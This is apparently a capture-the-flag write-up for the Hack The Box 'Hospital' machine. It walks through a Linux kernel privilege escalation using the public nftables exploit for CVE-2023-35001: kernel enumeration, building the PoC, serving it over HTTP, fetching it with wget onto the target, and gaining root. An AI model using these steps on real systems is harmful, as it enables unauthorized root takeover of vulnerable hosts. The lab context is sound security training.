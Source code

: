 # CVE-2023-35001

## Enumeration

> nftables oob read/write exploit (CVE-2023-35001)

Exploit used at pwn2own Vancouver 2023 on Ubuntu desktop. The exploit supports the kernel version available at the beginning of the event (5.19.0-35).

```bash
www-data@webserver:/tmp$ uname -a
uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

```bash
www-data@webserver:/tmp$ cat /etc/os-release
PRETTY_NAME="Ubuntu 23.04"
NAME="Ubuntu"
VERSION_ID="23.04"
VERSION="23.04 (Lunar Lobster)"
...
```

## build the PoC

[PoC exploit](https://github.com/synacktiv/CVE-2023-35001)

```bash
$ git clone https://github.com/synacktiv/CVE-2023-35001    
Cloning into 'CVE-2023-35001'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 9 (delta 0), reused 9 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (9/9), 13.02 KiB | 833.00 KiB/s, done.
```

```bash
$ cd CVE-2023-35001
```

```bash
$ ls
go.mod  go.sum  main.go  Makefile  README.md  src
```

```bash
$ make
go build
go: downloading golang.org/x/sys v0.0.0-20211205182925-97ca703d548d
go: downloading github.com/google/nftables v0.0.0-20220611213346-a346d51f53b3
go: downloading github.com/vishvananda/netns v0.0.0-20180720170159-13995c7128cc
go: downloading github.com/mdlayher/netlink v1.4.2
go: downloading github.com/josharian/native v0.0.0-20200817173448-b6b71def0850
go: downloading github.com/mdlayher/socket v0.0.0-20211102153432-57e3fa563ecb
go: downloading golang.org/x/net v0.0.0-20211209124913-491a49abca63
gcc -Wall -Wextra -Werror -std=c99 -Os -g0 -D_GNU_SOURCE -D_DEFAULT_SOURCE -D_POSIX_C_SOURCE=200809L src/wrapper.c -o wrapper
zip lpe.zip exploit wrapper
  adding: exploit (deflated 42%)
  adding: wrapper (deflated 83%)
```

## Transfer files

Transfer files `exploit` and `wrapper` to the target.

```bash
$ python3 -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 (http://0.0.0.0:8181/) ...
```

```bash
root@webserver:/tmp$ wget 10.10.14.8:8181/exploit
--2024-08-22 10:02:25--  http://10.10.14.8:8181/exploit
Connecting to 10.10.14.8:8181... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3137336 (3.0M) [application/octet-stream]
Saving to: ‘exploit’
exploit             100%[===================>]   2.99M  1.13MB/s    in 2.6s    
2024-08-22 10:02:28 (1.13 MB/s) - ‘exploit’ saved [3137336/3137336]
```

```bash
root@webserver:/tmp$ wget 10.10.14.8:8181/wrapper
--2024-08-22 10:02:37--  http://10.10.14.8:8181/wrapper
Connecting to 10.10.14.8:8181... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16304 (16K) [application/octet-stream]
Saving to: ‘wrapper’
wrapper             100%[===================>]  15.92K  --.-KB/s    in 0.09s   
2024-08-22 10:02:38 (175 KB/s) - ‘wrapper’ saved [16304/16304]
```

```bash
$ python3 -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 (http://0.0.0.0:8181/) ...
10.10.11.241 - - [20/Aug/2024 05:04:29] "GET /exploit HTTP/1.1" 200 -
10.10.11.241 - - [20/Aug/2024 05:04:41] "GET /wrapper HTTP/1.1" 200 -
```

## Exploit

```bash
www-data@webserver:/tmp$ chmod +x exploit wrapper

www-data@webserver:/tmp$ ./exploit
./exploit
[+] Using config: 5.19.0-35-generic
[+] Recovering module base
[+] Module base: 0xffffffffc0592000
[+] Recovering kernel base
[+] Kernel base: 0xffffffffb0600000
[+] Got root !!!
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## Links

- [GitHub - PoC - synacktiv](https://github.com/synacktiv/CVE-2023-35001)
- [HTB Hospital machine](https://app.hackthebox.com/machines/576)
